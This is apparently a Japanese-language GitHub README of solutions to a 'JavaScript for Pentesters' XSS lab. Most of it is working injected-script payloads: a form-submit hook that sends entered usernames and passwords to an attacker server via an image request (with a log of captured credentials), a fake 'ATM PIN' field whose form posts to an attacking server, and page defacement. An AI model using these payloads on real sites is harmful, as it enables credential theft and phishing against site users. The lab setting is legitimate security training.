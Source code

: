 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**

- [task1](#task1)
- [task2](#task2)
- [task3](#task3)
- [task4](#task4)
- [task5](#task5)
- [task6](#task6)
- [writeup](#writeup)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# task1
![image](https://user-images.githubusercontent.com/56021519/101612346-e2638d80-3a4d-11eb-8132-8a6e633d99cc.png)   
h2要素の3つ目と、h1要素の1つ目を書き換える。   
```js
<script>
  document.getElementsByTagName("h2")[2].innerHTML = "wetw0rk";
  document.getElementsByTagName("h1")[0].innerHTML = "ya bish";
</script>
```
# task2
![image](https://user-images.githubusercontent.com/56021519/101612253-ca8c0980-3a4d-11eb-9290-f639f4b3e7e8.png)   
a要素のhref属性の値を4つ分書き換える。   
```js
<script>
  document.getElementsByTagName("a")[0].href = "wetw0rk";
  document.getElementsByTagName("a")[1].href = "wetw0rk";
  document.getElementsByTagName("a")[2].href = "wetw0rk";
  document.getElementsByTagName("a")[3].href = "wetw0rk";
</script>
```
# task3
![image](https://user-images.githubusercontent.com/56021519/101612147-ad573b00-3a4d-11eb-9ae8-b4434c413766.png)   
入力した値が攻撃者に送信されるようにする。   
以下だと、actionに指定したこの攻撃者のサーバーに遷移してしまう   
今回はバレないようにしないといけないのでこれはだめ   
```js
<script>
  document.forms[0].action = "http://127.0.0.1:9000/";
  alert("XSS");
</script>
```
こんな感じでaction先に遷移してしまう。   
![image](https://user-images.githubusercontent.com/56021519/101610107-23a66e00-3a4b-11eb-8fd4-1f0463a5cd24.png)   
送信ボタンが押されるとonsubmitイベントが発火するので、そのイベントを検知したらInterceptForm()関数が呼ばれるようにする。   
`new Image().src`で画像を取得する形で攻撃サーバーに情報を送信する。  
これをURL encodeして/url?=に入れて、Javascriptが挿入された後にブラウザで送信ボタンを押す   
挿入したJavascriptはその次の送信時のブラウザで実行されるのでBurpは無意味。   
```js
<script>
function InterceptForm()
{
  var username = document.forms[0].elements[0].value;
  var password = document.forms[0].elements[1].value;
  var w;

  new Image().src = ("http://127.0.0.1:9000/?username=" +
    username + "&password=" + password);
  alert("XSS");
}

document.forms[0].onsubmit = InterceptForm;

</script>
```
```txt
tomoki@LAPTOP-KSRL4PAP:~$ python3 -m http.server 9000
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
127.0.0.1 - - [09/Dec/2020 17:07:05] "GET /?username=aa&password=aa HTTP/1.1" 200 -
```
# task4
![image](https://user-images.githubusercontent.com/56021519/101611938-741ecb00-3a4d-11eb-967c-97885e8eba56.png)   
formタグの2つ目のinput要素の次に、もう一つinput要素を追加する。   
`createElement`で`input`要素を作成して属性を設定し、`insertBefore`の二つ目の引数でpassのinputの一つ後ろを`nextSibling`で指定することで、そこに挿入する。   
```js
<script>
/* http://pentesteracademylab.appspot.com/lab/webapp/jfp/4 */
var nfield = document.createElement("input"); // create new input field

nfield.setAttribute("type", "text");
nfield.setAttribute("class", "input-block-level");
nfield.setAttribute("placeholder", "ATM PIN");
nfield.setAttribute("name", "pin");

var lf = document.forms[0].elements[1]; // index pass field

document.forms[0].insertBefore(nfield, lf.nextSibling); // insert after pass field
document.forms[0].action = "http://127.0.0.1/"; // send to attacking server

</script>
```
新しいフォームが追加された。   
![image](https://user-images.githubusercontent.com/56021519/101611821-5487a280-3a4d-11eb-8cd9-64a3306c8ac2.png)   
以下のようにエラーはでるが、送信はできてる。   
![image](https://user-images.githubusercontent.com/56021519/101610065-17baac00-3a4b-11eb-993e-9c5ce92ad770.png)   
以下でも同じことができる。   
```js
<script>
window.onload = function()
{
  var fieldx = document.createElement('input');
  fieldx.type = "text";
  fieldx.class = "input-block-level";
  fieldx.placeholder= "ATM PIN";
  fieldx.name = "ATM PIN";
  fieldx.style.fontSize = "16px";
  fieldx.style.height = "auto";
  fieldx.style.marginBottom = "15px";
  fieldx.style.paddingLeft = "7px";
  fieldx.style.paddingRight = "9px";
  document.forms[0].insertBefore(fieldx,document.forms[0].childNodes[6])
}
</script>
```
# task5
![image](https://user-images.githubusercontent.com/56021519/101613094-b09ef680-3a4e-11eb-8aba-c2338e16eb9d.png)   
formを削除して、偽のメッセージを挿入する。   
`parentNode.appendCild`で要素を挿入して、`parentNode.removeChile`でform[0]を丸々削除する。   
```js
<script>
var notice = document.createElement("h2");
notice.innerHTML = "Website is Down! Please visit SecurityTube.net";
document.forms[0].parentNode.appendChild(notice);
document.forms[0].parentNode.removeChild(document.forms[0]);
</script>
```
![image](https://user-images.githubusercontent.com/56021519/101616581-de863a00-3a52-11eb-976f-af4b37cb4a88.png)   

# task6

# writeup
https://github.com/wetw0rk/AWAE-PREP/blob/master/JavaScript%20For%20Pentesters/README.md   
https://github.com/bupt007/pentester-for-javascript-/blob/master/solution.js   
